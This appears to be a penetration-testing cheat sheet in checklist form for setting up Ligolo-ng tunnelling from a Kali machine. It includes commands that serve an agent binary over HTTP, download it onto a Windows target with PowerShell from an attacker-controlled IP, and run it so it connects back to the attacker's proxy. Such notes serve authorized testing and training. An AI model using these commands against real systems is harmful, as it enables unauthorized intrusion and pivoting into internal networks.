 # Downloading binaries

- [ ] Download the proxy binary on your Kali Machine
```
https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_proxy_0.4.4_linux_amd64.tar.gz
```
```
tar -zxvf ligolo-ng_proxy_0.4.4_linux_amd64.tar.gz
```

- [ ] Download the agent binary on your Kali Machine
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_agent_0.4.4_windows_amd64.zip
```
```
unzip ligolo-ng_agent_0.4.4_windows_amd64.zip
```

- [ ] Serve `agent.exe` on your Kali Machine
```
python3 -m http.server 80
```

- [ ] Download the agent binary on the Target Machine
```
powershell iwr -uri http://192.168.xxx.xxx/agent.exe -Outfile C:\Tools\agent.exe
```

# Setup Ligolo-ng 

- [ ] Create a `tun` interface on the Proxy Server (C2) on your Kali Machine
```
sudo ip tuntap add user kali mode tun ligolo
```

- [ ] Enable interface on your Kali Machine
```
sudo ip link set ligolo up
```

- [ ] Start proxy on your Kali Machine
```
chmod 777 proxy
./proxy -h
./proxy -selfcert
```
- By default it will be listening on all interfaces on port 11601

- [ ] Execute agent on the Target Machine to establish connection with the Ligolo server on your Kali Machine
```
.\agent.exe -connect 192.168.xxx.xxx:11601 -ignore-cert
```
- On your server it should show
	- `INFO[0155] Agent joined.`

